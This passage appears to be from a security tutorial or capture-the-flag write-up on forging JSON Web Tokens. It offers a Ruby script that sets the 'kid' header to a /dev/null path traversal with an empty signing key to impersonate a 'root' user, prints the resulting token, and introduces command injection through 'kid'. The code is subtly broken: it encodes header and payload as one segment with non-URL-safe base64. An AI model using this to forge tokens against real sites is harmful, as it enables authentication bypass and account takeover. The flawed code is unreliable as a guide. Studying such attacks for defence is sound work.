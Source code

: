 `OpenSSL::HMAC.hexdigest("SHA256", key, data)`

we can import `openssl` and use the above line as it is.
for more info refer this => [openssl_hmac](https://ruby-doc.org/stdlib-2.4.0/libdoc/openssl/rdoc/OpenSSL/HMAC.html).

```js
require 'base64'
require 'openssl'

header = '{"typ": "JWT","alg": "HS256","kid": "../../../../../../../../dev/null"}'

payload = '{"user": "root"}'

token = header+"."+payload
newtoken = Base64.strict_encode64(token).gsub("=","")

key = ""

sig = OpenSSL::HMAC.digest(OpenSSL::Digest.new("SHA256"), key, newtoken)

newsig = Base64.strict_encode64(sig).gsub("=", "")
puts newtoken+"."+newsig
```

In the above script we are requesting `/dev/null` which is empty/null file and passing empty value in `key` therefore, Both values are empty and at the time of verification the site will verify the token as a result you will get logged in as `root` user.

`gsub` is used for substituting `=` signs with `empty space`.

`Base64.strict_encode64` is used for encoding the `newtoken` as well as `newsig`.

`Strict` means that white spaces / CR/LF are rejected at decode and CR/LF are not added at encode.

after creating the script run the script in the terminal

`$ ruby newtoken.rb`

#### Final Token

`eyJ0eXAiOiAiSldUIiwiYWxnIjogIkhTMjU2Iiwia2lkIjogIi4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2Rldi9udWxsIn0ueyJ1c2VyIjogInJvb3QifQ.RlRo904TG62K3+FEOltbXfitiBnBUAxepCmUkuFAf1E`

Send the forged token to the site using burp repeater, curl or simply by using inspect element and refresh.

we will get logged in as `root`.

#### Command Injection

Command Injection through `kid` is similar to LFI script. For Forging a root account token use the script used in LFI section. In this we will focus on `Command Injection` .

#### Token

`{typ:JWT,alg:HS256,kid:"1"}`
